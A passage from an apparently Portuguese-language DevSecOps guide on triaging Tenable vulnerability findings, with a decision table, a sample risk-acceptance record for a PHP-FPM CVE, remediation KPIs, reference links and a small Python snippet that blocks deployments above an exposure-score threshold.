| ---------------------- | --------------------------------- | ----------------------------------- | ------------------------------------------ |
| **Exploitabilidade**   | Exploit público disponível        | Vulnerabilidade teórica sem exploit | Exploit requer acesso físico               |
| **Contexto**           | Serviço exposto à Internet        | Serviço interno sem conectividade   | Sistema legado isolado (air-gapped)        |
| **Evidência**          | Output confirma versão vulnerável | Scanner assumiu versão por banner   | Falso positivo confirmado por teste manual |
| **Impacto no Negócio** | Sistema crítico (payment, auth)   | Ambiente de desenvolvimento         | Sandbox sem dados sensíveis                |
| **Remediação**         | Patch disponível                  | Sem patch (0-day)                   | Sem patch + sistema descontinuado          |
| **Ação**               | **Remediar em 7 dias**            | **Fechar como FP**                  | **Documentar + compensar**                 |

---

### Workflow de Decisão



---

### Exemplo de Risk Acceptance

```yaml
Risk ID: RISK-2024-042
Vulnerability: CVE-2019-11043 (PHP-FPM RCE)
Asset: legacy-app.internal.company.com (172.16.30.15)
Severity: CRITICAL (CVSS 9.8)

Justification for Acceptance: ✓ Asset is air-gapped (no Internet connectivity)
  ✓ Accessible only via VPN + 2FA
  ✓ Application scheduled for decommission in Q2 2024
  ✓ No sensitive data processed
  ✓ Monitored 24/7 by SOC

Compensating Controls:
  - Network segmentation (VLAN isolation)
  - WAF rule blocking malicious User-Agent patterns
  - Daily integrity checks (Tripwire)
  - Egress firewall blocking all outbound except DNS

Accepted By: John Doe (CISO)
Date: 2024-02-05
Review Date: 2024-05-01
```

---

### KPIs para DevSecOps

```yaml
Metrics to Track:

1. Mean Time to Remediate (MTTR):
  Target: < 14 days for Critical, < 30 days for High

2. Vulnerability Backlog:
  Target: < 50 open Critical findings

3. False Positive Rate:
  Target: < 15% (high FP rate = scanner misconfiguration)

4. Re-opened Vulnerabilities:
  Target: < 5% (indicates incomplete remediation)

5. Asset Coverage:
  Target: 100% of production assets scanned monthly
```

---

## 🔗 Links e Referências

- **Tenable Documentation:** https://docs.tenable.com/
- **CVSS Calculator:** https://www.first.org/cvss/calculator/3.1
- **MITRE ATT&CK:** https://attack.mitre.org/
- **Shodan CLI:** https://cli.shodan.io/
- **AlienVault OTX API:** https://otx.alienvault.com/api

---

## 📝 Changelog

| Data       | Versão | Alteração                |
| ---------- | ------ | ------------------------ |
| 2024-02-05 | 1.0    | Documento inicial criado |

---

> **💡 Dica final:** Integre o Tenable com seu pipeline CI/CD usando a API. Exemplo: bloquear deploy se VPR > 7.0 detectado.

```python
# Exemplo de integração CI/CD
import requests

def check_tenable_scan(asset_ip):
    response = requests.get(
        f"https://cloud.tenable.com/assets/{asset_ip}",
        headers={"X-ApiKeys": f"accessKey={ACCESS_KEY};secretKey={SECRET_KEY}"}
    )
    aes = response.json()["exposure_score"]

    if aes > 800:
        raise Exception(f"❌ DEPLOY BLOCKED: Asset {asset_ip} has AES {aes} (Critical Risk)")

    print(f"✅ Deploy approved: AES {aes} within acceptable range")
```
